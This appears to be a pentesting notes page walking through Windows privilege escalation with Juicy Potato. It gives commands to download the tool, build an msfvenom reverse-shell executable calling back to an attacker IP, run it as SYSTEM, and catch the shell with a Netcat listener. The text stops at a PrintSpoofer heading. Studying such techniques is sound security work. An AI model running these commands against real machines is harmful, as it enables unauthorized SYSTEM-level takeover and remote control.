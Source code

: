 ```yaml
---
legal-banner: true
---
```


### **Introduction**

Service accounts are often configured with `SeImpersonatePrivilege` or `SeAssignPrimaryTokenPrivilege`.  
These allow an account to impersonate the access tokens of other users, including the SYSTEM user.

??? info "Important"

    Juicy Potato does **not** work on Windows 10 version 1809 or later, nor on Server 2019.  
    For Server 2016, Server 2019, and Windows 10 (1607 onwards), use **PrintSpoofer.exe** instead.

### **Exploiting privileges with Juicy Potato**

Rotten Potato was a limited exploit. Juicy Potato improves on it by leveraging more CLSIDs and methods of exploitation.  
(The following example uses Windows 7.)

1.  Verify that the current user has `SeImpersonatePrivilege`:  
    `whoami /priv`  
    
    ![](../../../img/Windows-Environment/144.png)
    
2.  Download `JuicyPotato.exe` from GitHub:  
    `curl -L -o JuicyPotato.exe https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe`  

    ![](../../../img/Windows-Environment/145.png)

    **Note:** This binary is 64-bit. A 32-bit version is available [here](https://github.com/ohpe/juicy-potato/releases/tag/v0.1).
    
3.  Determine the OS version and build:  
    `systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"`  
    
    ![](../../../img/Windows-Environment/146.png)
    
4.  Example: Windows 10 Professional, Build 10586 → Version 1511.  
    Since 1511 < 1809, the machine is potentially vulnerable if not patched.  
    
    ![](../../../img/Windows-Environment/147.png)
    
5.  Generate a reverse shell executable using `msfvenom` (or use `nc.exe`):  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=1234 -a x64 --platform Windows -f exe -o shell.exe`  
    
    ![](../../../img/Windows-Environment/148.png)
    
6.  Transfer `JuicyPotato.exe` and `shell.exe` to the target (see File Transfer section for techniques).  
    
    ![](../../../img/Windows-Environment/149.png)
    
7.  Test the exploit by redirecting output to a file:  
    ```
    C:\Users\Public\Downloads\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c whoami > C:\Users\Public\Downloads\output.txt" -t *
    ```  
    
    ![](../../../img/Windows-Environment/150.png)
    
8.  Start a Netcat listener and execute the reverse shell via Juicy Potato:  
    ```
    C:\Users\Public\Downloads\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c C:\Users\Public\Downloads\shell.exe" -t *
    ```  
    
    ![](../../../img/Windows-Environment/151.png)
    
9.  If successful, you’ll receive a SYSTEM shell on the listener:  
    `sudo rlwrap -cAr nc -lvnp 1234`  
    
    ![](../../../img/Windows-Environment/152.png)

### **Impersonating the LOCAL SYSTEM account with PrintSpoofer**